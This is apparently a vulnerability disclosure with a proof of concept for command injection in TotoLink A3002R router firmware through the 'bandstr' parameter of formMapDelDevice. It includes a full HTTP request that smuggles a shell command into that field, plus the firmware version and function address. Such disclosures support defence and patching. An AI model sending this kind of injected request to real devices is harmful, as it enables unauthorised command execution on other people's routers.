

# totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

**addr**:0045a2a4
**function**:FUN_0045a1f8

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1


sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
